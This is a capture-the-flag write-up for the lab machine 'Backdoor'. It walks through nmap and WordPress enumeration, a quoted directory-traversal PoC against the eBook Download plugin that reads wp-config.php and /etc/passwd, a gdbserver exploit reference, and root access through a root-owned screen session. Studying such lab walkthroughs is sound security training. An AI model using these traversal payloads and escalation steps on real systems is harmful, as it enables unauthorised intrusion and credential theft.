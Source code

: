 # Backdoor #

IP_ADDR : 10.10.11.125

1. Nmap Enum

~~~sql
# Nmap 7.91 scan initiated Mon Feb 21 09:04:58 2022 as: nmap -sV -oA backdoor.nmap 10.10.11.125
Nmap scan report for 10.10.11.125
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 21 09:05:18 2022 -- 1 IP address (1 host up) scanned in 19.89 seconds

~~~

2. Wordpress scrapping 

We proceed to the webpage. 
* Right off the bat, we can tell this is written in php since the about page points to this url : "http://10.10.11.125/index.php/about/"
* Site is written in WordPress. ( Dirbuster found wp-content, footer of page also gives this info )
* Other than that, I can't seem to find anything interesting on the site. Continuing with enum: vhost scan and full port scan.

Found that the WordPress version is 5.8.1, by inspecting the page source code..
~~~html
...
<meta name="generator" content="WordPress 5.8.1">
...
~~~

Running WPScan, found that the upload directory is public: 

![not found](Pasted%20image%2020220221093345.png  "1")

No interesting files..

We learn the main structure of a WP site though:
(This link was super useful :
https://idiallo.com/blog/improved-wordpress-folder-structure)

![not found](Pasted%20image%2020220221095558.png "2")

* Going into wp-includes:

![not found](Pasted%20image%2020220221094701.png "3")

* wp-admin gives a 302 to a login page, so no luck there.


After half an hour of manual enumeration, i found a plug-in in wp-content/plugins/ that metasploit has data about:
![not found](Pasted%20image%2020220221095836.png "4")

![not found](Pasted%20image%2020220221095929.png "5")


~~~bash
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7
 
[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================
 
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
~~~

The vulnerability was found! ~ LFI type.

3. LFI exploits

url : 'http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd'

Response ( | grep -v nologin ):
~~~bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
~~~

Unfortunately, nothing seemed to be useful in here. /etc/passwd tells us no information whatsoever and user.txt or .bash_history or .ssh cannot be accesed from this enviroment (probably we are not the right user)

MySql credentials are blocked aswell so it seems like this LFI was a rabbit hole.. (?) was it?

Found https://github.com/mthbernardes/LFI-Enum and ran it on the machine. One of the utils was particulary useful : checking for processes. This is probably the best thing you can do with LFI if you got no access to key files just by plain LFI and you got lotta time.

Running 
~~~bash
./process-info http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../
~~~
we get ![not found](Pasted%20image%2020220221115950.png "6")


4. New port

Search for gdbserver vuln. Found python script at " https://www.exploit-db.com/exploits/50539 "


We are in with the help of the script. Next step is to run linpeas to see anything odd.
![not found](Pasted%20image%2020220221145508.png "7")

Linpeas shows a strange process ran by root. 
~~~bash
/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
~~~

This script constantly starts a screen session as root. So to get to root, we just need to enter that screen session.

Manpage of "screen" gives this command:
![not found](Pasted%20image%2020220221151242.png "8")

So we just use that ( screen -r root/root ) and we are in!

![not found](Pasted%20image%2020220221151331.png "9")
